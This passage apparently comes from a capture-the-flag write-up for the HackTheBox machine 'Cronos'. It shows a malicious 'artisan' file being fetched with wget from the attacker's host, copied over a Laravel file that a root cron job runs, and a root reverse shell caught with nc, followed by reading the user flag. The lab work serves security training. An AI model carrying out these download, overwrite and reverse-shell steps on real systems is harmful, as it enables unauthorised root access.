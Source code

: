 {% raw %}
```bash
www-data@cronos:/dev/shm$ wget 10.10.16.12:8000/artisan
wget 10.10.16.12:8000/artisan
--2025-02-15 15:32:55--  http://10.10.16.12:8000/artisan
Connecting to 10.10.16.12:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [application/octet-stream]
Saving to: 'artisan'

artisan             100%[===================>]   5.36K  --.-KB/s    in 0.004s  

2025-02-15 15:32:55 (1.47 MB/s) - 'artisan' saved [5493/5493]

www-data@cronos:/dev/shm$ chmod +x artisan
chmod +x artisan
```
{% endraw %}

<br />
Overwrite the file in /var/www/laravel file with our malicious file.

{% raw %}
```bash
www-data@cronos:/dev/shm$ cp artisan /var/www/laravel/artisan
cp artisan /var/www/laravel/artisan
```
{% endraw %}

<br />
Give it some time for the cron job to execute.  Check the listener and catch the shell.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/cronos]
└─$ nc -nlvp 1234 
listening on [any] 1234 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.10.13] 44276
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 15:35:01 up  3:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
#
```
{% endraw %}

<br />
Get the user.txt flag.

{% raw %}
```bash
# cat /home/noulis/user.txt
<redacted>
# ifconfig
ens160    Link encap:Ethernet  HWaddr 00:50:56:b9:64:c9  
          inet addr:10.10.10.13  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:feb9:64c9/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:feb9:64c9/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:3799018 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3732483 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:583770003 (583.7 MB)  TX bytes:3497722700 (3.4 GB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
```